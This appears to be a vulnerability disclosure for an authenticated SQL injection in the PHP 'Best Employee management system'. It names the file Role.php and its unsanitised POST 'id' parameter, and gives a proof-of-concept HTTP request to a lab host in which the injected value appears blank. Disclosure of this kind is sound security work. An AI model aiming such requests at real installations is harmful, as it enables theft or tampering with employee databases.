


The Best Employee management system has an SQL injection vulnerability that, after being authenticated, could be exploited by an attacker to steal information or compromise a database.


Source code address：https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html


The vulnerability is located in the admin/Operation/ role-ph file. Some code in the file is used to verify user information, and then directly see the problem code, receive the id parameter of the POST request submitted after authentication, and directly concatenate with the SQL statement, which has potential security risks.




Vulnerability verification：

```
POST /employee/admin/Operation/Role.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/employee/admin/edit_role.php
Cookie: PHPSESSID=323brna9jrc7c8eqaq5sdhnk65
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------20171085214986
Content-Length: 569

-----------------------------20171085214986
Content-Disposition: form-data; name="id"


-----------------------------20171085214986
Content-Disposition: form-data; name="assign_name"

Leave Manager
-----------------------------20171085214986
Content-Disposition: form-data; name="description"

Manages leaves
-----------------------------20171085214986
Content-Disposition: form-data; name="checkItem[]"

25
-----------------------------20171085214986
Content-Disposition: form-data; name="btn_edit"


-----------------------------20171085214986--

```




